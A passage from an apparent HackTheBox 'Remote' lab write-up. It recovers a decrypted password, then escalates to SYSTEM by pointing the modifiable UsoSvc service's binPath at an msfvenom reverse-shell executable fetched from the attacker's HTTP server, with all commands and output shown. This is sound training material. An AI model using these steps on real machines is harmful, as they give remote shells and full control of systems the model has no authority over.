    ```bash
    kali@kali:~/Desktop/htb/remote$ python3 team.py
    00000000: 21 00 52 00 33 00 6D 00  30 00 74 00 65 00 21 00  !.R.3.m.0.t.e.!.
    00000010: 00 00 00 00 00 00 00 00  00 00 00 00 00 00 00 00  ................
    None
    !R3m0te!
    ```

And now we can remote into the box using this creds just as show in root method 1.
## Root Shell (Method 3 Usosvc service)

We can see that the service `usosvc` is modifiable and exploiting it can grant us `system`.
```bash
UsoSvc
```bash
  [+] Modifiable Services(T1007)
   [?] Check if you can modify any service https://book.hacktricks.xyz/windows/windows-local-privilege-escalation#services
    LOOKS LIKE YOU CAN MODIFY SOME SERVICE/s:
    UsoSvc: AllAccess, Start
```

To exploit

1. Create a payload using `msfvenom` and transfer the file to the system
    ```bash
    msfvenom -p windows/shell/reverse_tcp LHOST=10.10.14.24 LPORT=4444 -a x86  -f exe -o
    shell.exe
    [-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
    No encoder specified, outputting raw payload
    Payload size: 341 bytes
    Final size of exe file: 73802 bytes
    Saved as: shell.exe
    kali@kali:~/Desktop/htb/remote$ server
    HTB IP:10.10.14.24/23
    Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...
    10.10.10.180 - - [28/Jul/2020 11:29:08] "GET /shell.exe HTTP/1.1" 200 -
    ```
2. Set the `usosvc` config to point the `binpath` to our payload and start the service

    ```bash
    PS C:\Users\Public> invoke-webrequest -uri http://10.10.14.24:8000/shell.exe -outfile s.exe
    invoke-webrequest -uri http://10.10.14.24:8000/shell.exe -outfile s.exe

    PS C:\Users\Public> sc.exe config usosvc binPath="c:\users\public\shell.exe"
    sc.exe config usosvc binPath="c:\users\public\shell.exe"
    [SC] ChangeServiceConfig SUCCESS

    PS C:\Users\Public> sc.exe start usosvc
    sc.exe start usosvc
    [SC] StartService FAILED 1053:

    The service did not respond to the start or control request in a timely fashion.

    PS C:\Users\Public>
    ```
    Something to note here. Although the service is throwing an error message, our payload ran. First I was trying to use the `nc.exe` binary along with other flags to get a shell. But for some reason the program would not run. So I changed the payload to `msfvenom` and then it was working.
